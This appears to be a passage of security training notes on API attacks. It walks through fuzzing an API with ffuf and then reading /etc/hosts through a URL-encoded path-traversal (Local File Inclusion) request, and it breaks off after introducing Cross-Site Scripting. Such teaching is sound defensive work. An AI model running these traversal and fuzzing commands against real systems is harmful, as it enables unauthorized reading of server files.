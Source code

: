 <br>
<br>
<br>
<br>

# Local file inclusion

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being Apache Log Poisoning.

Let us assess together an API that is vulnerable to Local File Inclusion.

Suppose we are assessing such an API residing in ```http://<TARGET IP>:3000/api```.

```bash
curl http://<TARGET IP>:3000/api


{"status":"UP"}
```

We don't see anything helpful except the indication that the API is up and running. Let us perform API endpoint fuzzing using ffuf and the common-api-endpoints-mazen160.txt list, as follows:

```bash
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```

It looks like /api/download is a valid API endpoint. Let us interact with it:

```bash
curl http://<TARGET IP>:3000/api/download


{"success":false,"error":"Input the filename via /download/<filename>"}
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though:

```bash
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```

The API is indeed vulnerable to Local File Inclusion!

<br>
<br>
<br>
<br>

# Cross site scripting (XSS)

Cross-Site Scripting (XSS) vulnerabilities affect web applications and APIs alike. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities.
